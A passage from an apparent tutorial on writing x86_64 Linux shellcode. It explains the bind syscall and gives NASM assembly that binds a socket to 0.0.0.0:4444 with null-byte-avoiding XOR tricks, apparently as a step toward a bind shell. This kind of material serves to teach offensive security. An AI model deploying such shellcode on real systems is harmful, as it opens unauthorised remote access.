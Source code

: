 <figcaption class="figure-caption">Creating a TCP socket</figcaption>

If you were to debug the assembly instructions shown above and stop right after the `syscall` instruction, you may notice the creation of a new file descriptor, like this one:

```bash
ls -la /proc/43453/fd/

lrwx------ 1 kali kali 64 Feb 28 16:16 /proc/43453/fd/3 -> 'socket:[608794]'
```

What the shellcode did is create a new file descriptor for the socket object. This is due to the fact that on Linux `everything is a file`, sockets too.

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://en.wikipedia.org/wiki/Everything_is_a_file"><div class="kg-bookmark-content"><div class="kg-bookmark-title">Everything is a file - Wikipedia</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><img class="kg-bookmark-icon" src="https://en.wikipedia.org/static/apple-touch/wikipedia.png" alt=""><span class="kg-bookmark-author">Wikimedia Foundation, Inc.</span><span class="kg-bookmark-publisher">Contributors to Wikimedia projects</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://upload.wikimedia.org/wikipedia/en/thumb/9/99/Question_book-new.svg/50px-Question_book-new.svg.png" alt=""></div></a>

### Socket Binding

Once the socket object is created, it's time to **bind** it to our socket of choice.

To perform this operation, we can use the homonymous syscall:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/bind.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">bind(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

It accepts three arguments:

<ol><li>**`sockfd` **is the file descriptor of the socket created previously by means of the `socket` syscall
- `**addr** `is a pointer to a `sockaddr` structure containing all the information to perform the binding, such as the IP address and the TCP port
- **`addrlen` **indicates the length of the `sockaddr` structure, usually 16 bytes (including padding bytes)

In the code below, I'm binding the created socket object to the socket`0.0.0.0:4444` to later listen for connections on all the IP addresses of the host.

```nasm
BindSocket:

    ; save file descriptor inside RSI
    ; 1st argument of bind(): file descriptor of the socket to bind
    xchg rax, rdi

    ; INADDR_ANY (0x00000000)
    ; TCP port 4444
    ; 0x00002 -> AF_INET
    mov esi, 0x5c11ffff
    xor si, 0xfffd
    push rsi

    ; 2nd argument of bind(): pointer to the sock_addr struct
    mov rsi, rsp
    mov r10, rsi

    ; 3rd argument of bind(): size of the struct
    add edx, 16

    ; syscall bind()
    xor eax, eax
    add rax, 49

    ; bind socket to 0.0.0.0:4444
    syscall
```
